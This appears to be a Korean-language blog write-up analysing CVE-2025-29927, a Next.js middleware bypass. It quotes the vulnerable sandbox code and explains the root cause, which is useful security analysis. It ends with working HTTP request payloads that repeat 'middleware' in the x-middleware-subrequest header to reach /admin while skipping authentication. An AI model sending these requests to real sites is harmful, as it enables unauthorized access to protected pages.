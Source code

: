 미들웨어는 보통 위 코드 샘플처럼, 인증 및 인가를 위해 사용한다. 그렇기에 미들웨어 자체를 건너뛸 수 있다면, 검증 로직들을 대부분 우회할 수 있게 된다.

### Part2. Root Cause

```tsx
// https://github.com/vercel/next.js/blob/v15.2.2/packages/next/src/server/web/sandbox/sandbox.ts#L105

const run = withTaggedErrors(async function runWithTaggedErrors(params) {
    var _params_request_body;
    const runtime = await getRuntimeContext(params);
    const subreq = params.request.headers[`x-middleware-subrequest`];
    const subrequests = typeof subreq === 'string' ? subreq.split(':') : [];
    const MAX_RECURSION_DEPTH = 5;
    const depth = subrequests.reduce((acc, curr)=>curr === params.name ? acc + 1 : acc, 0);
    if (depth >= MAX_RECURSION_DEPTH) {
        return {
            waitUntil: Promise.resolve(),
            response: new runtime.context.Response(null, {
                headers: {
                    'x-middleware-next': '1'
                }
            })
        };
    }
    // .....
```

이 부분이 `CVE-2025-29927`를 발생시키는 원인이 된다. 결론부터 말하자면 사용자의 요청이 아래 조건을 만족할 경우 미들웨어를 우회하는 것이 가능하다. 이를 위해 아래 조건이 성립되어야 한다.

- `x-middleware-subrequest` 헤더와 함께 요청
- 헤더 값을 `:` 기준으로 파싱한 배열의 길이가, **5 이상**이 되어야 함
- 각 배열의 값이 `params.name` 값과 같아야 함.

조건을 만족시키 위해 `withTaggedErrors` 의 로직을 분석해보자.

1. 요청 패킷에 `x-middleware-subrequest` 가 존재하면 그 값을 읽어 `:` 기준으로 파싱하여 `subrequests` 라는 변수에 저장한다. 아래의 예시를 보면 이해가 쉬울 것이다.

   ```
   x-middleware-subrequest: aaa:bbb:ccc
   subrequests -> ['aaa', 'bbb', 'ccc']
   ```

1. `subrequests` 배열의 각 값과 `params.name` 몇 개나 일치하는지 확인하고, 일치 하는 개수를 `depth`변수에 저장한다. `params.name` 은 미들웨어의 경로이고. Next.js 버전 13 이후로는 `middleware` 또는 `src/middleware` 둘 중에 하나가 된다.

1. 결국 `params.name`값을 배열에 5개 이상 들어가도록 해야하는 것이기 때문에 최종 페이로드는 Next.js 버전 13 이상을 기준으로 다음과 같다.

   ```
   GET /admin HTTP/1.1
   x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware

   // if "middleware.js" or "middleware.ts" is in src/ folder
   GET /admin HTTP/1.1
   x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware
   ```
